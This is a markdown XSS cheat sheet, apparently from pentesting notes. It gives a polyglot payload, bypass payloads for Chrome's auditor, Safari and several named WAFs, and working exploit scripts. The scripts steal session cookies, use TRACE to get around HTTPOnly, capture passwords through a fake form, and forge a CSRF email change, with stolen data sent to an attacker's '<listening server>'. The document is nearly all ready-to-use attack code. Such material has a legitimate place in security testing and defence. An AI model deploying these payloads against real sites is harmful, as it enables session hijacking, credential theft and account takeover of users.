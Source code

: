 # XSS

List of exploitable JS functions: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

List of XSS payloads: [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all)

Polyglot field test

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## WAF Bypass

### Google Chrome Payloads

#### Google XSS Audit Bypass

```
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

#### Chrome < v60 beta XSS-Auditor Bypass

```
<script src="data:,alert(1)%250A-->
```

#### Other Google Audit Bypass Payloads

```
<script>alert(1)</script
<script>alert(1)%0d%0a-->%09</script
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

### Safari

```
<script>location.href;'javascript:alert%281%29'</script>
```

### Kona WAF (Akamai) Bypass&#xD;

```
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

### Wordfence&#x20;

```
<meter onmouseover="alert(1)"
'">><div><meter onmouseover="alert(1)"</div>"
>><marquee loop=1 width=0 onfinish=alert(1)>
```

### Incapsula WAF

```
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
<img/src=q onerror='new Function`al\ert\`1\``'>
```



## Exploits

### Cookie Stealing

Create an instance of server listening on a public port. After sending the following payload to the target you will see a request to your server containing the session cookies

```
<script>
fetch('<listening server>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

### Cross Trace Scripting

By default cookies with the HTTPOnly attribute set to true are invisible to browser scripts because they are sent only through GET or POST HTTP(S) requests. In order to obtain these cookie we make the user send a TRACE request to the server&#x20;

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.withCredentials = true;
req.open('TRACE','<URL>',true);        #putting \r\nTRACE instead of TRACE might bypass some option filters
req.send();
function handleResponse() {
    fetch('<listening server>', {
            method: 'POST',
            mode: 'no-cors',
            body: this.getAllResponseHeaders()
        });
};
</script>
```

### Password Stealing

Create an instance of server listening on a public port. Send the following payload to create a fake form on the target server. When the victim types the password a request will be sent to your server containing the password

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('<listening server>',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### CSRF

Use the following payload to send a request using AJAX to a page of the application. Can be used for instance to request  password reset for the user

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','<URL>',true);
req.send();
function handleResponse() {
    var target = new XMLHttpRequest();
    target .open('post', '/my-account/change-email', true);
    target .send(<body>)
};
</script>
```

